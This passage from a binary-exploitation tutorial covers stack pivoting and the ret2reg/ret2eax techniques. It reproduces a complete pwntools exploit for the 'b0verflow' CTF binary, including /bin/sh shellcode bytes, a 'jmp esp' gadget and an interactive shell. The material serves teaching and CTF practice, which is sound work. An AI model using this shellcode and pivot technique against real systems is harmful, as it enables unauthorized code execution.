 You can see another example of this technique in [https://guyinatuxedo.github.io/17-stack\_pivot/xctf16\_b0verflow/index.html](https://guyinatuxedo.github.io/17-stack\_pivot/xctf16\_b0verflow/index.html). There is a buffer overflow without NX enabled, it's used a gadget to r**educe the address of `$esp`** and then a `jmp esp;` to jump to the shellcode:

```python
# From https://guyinatuxedo.github.io/17-stack_pivot/xctf16_b0verflow/index.html
from pwn import *

# Establish the target process
target = process('./b0verflow')
#gdb.attach(target, gdbscript = 'b *0x080485a0')

# The shellcode we will use
# I did not write this, it is from: http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Establish our rop gadgets

# 0x08048504 : jmp esp
jmpEsp = p32(0x08048504)

# 0x080484fd : push ebp ; mov ebp, esp ; sub esp, 0x24 ; ret
pivot = p32(0x80484fd)

# Make the payload

payload = ""
payload += jmpEsp # Our jmp esp gadget
payload += shellcode # Our shellcode
payload += "1"*(0x20 - len(shellcode)) # Filler between end of shellcode and saved return address
payload += pivot # Our pivot gadget

# Send our payload
target.sendline(payload)

# Drop to an interactive shell
target.interactive()
```

## Ret2reg

Similarly, if we know a function returns the address where the shellcode is stored, we can leverage **`call eax`** or **`jmp eax`** instructions (known as **ret2eax** technique), offering another method to execute our shellcode. Just like eax, **any other register** containing an interesting address could be used (**ret2reg**).

### Example

You can find some examples here:&#x20;

